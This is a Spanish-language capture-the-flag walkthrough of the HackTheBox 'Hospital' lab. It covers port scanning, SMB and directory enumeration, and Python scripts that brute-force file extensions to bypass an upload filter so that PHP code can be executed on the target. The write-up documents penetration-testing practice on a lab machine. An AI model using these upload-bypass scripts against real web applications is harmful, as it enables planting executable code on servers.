 
-----
- TAG: #DOMINIOS #NETEXEC #PYTHON #GOBUSTER
----
- Empezamos creando nuestra carpeta Hospital en nuestra terminal, creamos las tres carpetas que necesitaremos para guardar la información 
```
mkt
```

- Empezamos con el proceso de  reconocimiento con **nmap** 
```
ping -c 1 10.10.11.241
```

- Realizamos una auditoria a la red para ver que puertos potenciales estan abiertos
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.241 -oG allPorts
```

- Extraemos la información de los puertos abiertos con 
```
extractPorts allPorts
```
   - Recordemos que con `locate .nse` podemos observar todos los scripts escritos en lua de nmap los cuales contiene categorias.
   - Con `locate .nse | xargs grep "categories"` podemos filtrar por categorias

- Realizamos el escaneo a los puertos abiertos y guardamos el output en el archivo **targeted**
```
nmap -p(puertos) -sCV 10.10.11.241 -oN targeted
```
 - Ahora el formato lo podemos ver en archivo grepeable y con estilo java con `cat taget -l java`
 - Vemos información como el la versión de Ubuntu corriendo por el puerto `22` y podemos tirar de **Launchpad**, con esto obtenemos información que corre un sistema **Lunar** (Puede que este corriendo un sub-sistema dentro de una maquina **Linux**)

## Jugando con Netexec
- Si no tenemos instalado realizamos el siguiente procedimiento de  [Instalación de Netexec](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
- Lo tenemos guardado en /opt/Netexec
- Ahora podemos averiguar un poco mas o encontrar dominios, Para ello deberíamos estar en el directorio **/.local/bin**
```
pushd /opt/Netexec
poetry run netexec smb 10.10.11.241
```

 - Encontrando el dominio lo ingresamos en el **/etc/host** con la dirección ip de la maquina para que lo pueda leer nuestro sistema.
```
10.10.11.241 hospital.htb
```

- Podríamos enumerar un poco de rutas de la url con **wfuzz**
```
wfuzz -c --hc=404,403 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://10.10.11.241:443/FUZZ
```
   - Si refleja información o directorios podrias ingresar por la url, jugar un poco con mayúsculas y minúsculas con la palabra clave encontrada.

- Empezamos auditar la otra pagina **http** por el puerto **8080**
`http://hospital.htb:8080`
- Nos creamos un usuario y contraseña y nos logueamos 
- Empezamos auditar ciertas partes como información que nos de la url (usando **whatweb**) por ejemplo, interceptar información con **burpsuite**

----
- Creamos un archivo **extensions** con 
```
echo '.php , .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g' | sed 's/ //' >> extensions
```
	 1. luego lo subimos a burpsuite en intruder en la opción load
	 2. De igual manera en "Grep - Extract" colocar 'load' selecionar /failed.php y poner ok
	 3. Luego de eso empezamos con el ataque de fuerza bruta para ver posibles rutas

- Creamos nuestro escript para detectar rutas validas.
```
<?php
  echo "Hola probando";
?>
```

 - Creamos un archi **.py** para enlistar los **.php** con el codigo de estado
```
#!/usr/bin/env python3

import requests
import signal
import sys
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID': 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8081'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()

    for extension in extensions:
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
	r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        print(r.status_code)

if __name__ == '__main__':
    fileUpload()
 
```
>Si cambiamos `print(r.estatus_code)` por:
>`if "failed" not in r.headers["Location"]:`
>	    `print(colored(f"\n[+] Extensión {extension}: {r.headers['Location']}", 'green'))`
- Podemos realizar la misma función que realizamos con **burpsuite** utilizando **python**, con esta ultima función nos enlista todas las rutas **succes.php**.
- En este punto con el siguiente código en **python** nos permitiría ejecutar código **.php** en la url con probando con las rutas encontradas:
  `http://hospital.htb:8080/uploads/cmd.phar`
```
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID' : 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8080'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()
	
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	
	time.sleep(2)
	
    for extension in extensions:
	    p1.status(f"Probando con la extensión {extension}")
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
        r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        if "failed" not in r.headers["Location"]:
	        log.info(f"Extensión {extension}: {r.headers['Location']}")
if __name__ == '__main__':
    fileUpload()
```

- Ahora podriamos enlistar directorios existentes utilizando fuerza bruta usando **gobuster**
```
gobuster dir -u http://hospital.htb:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

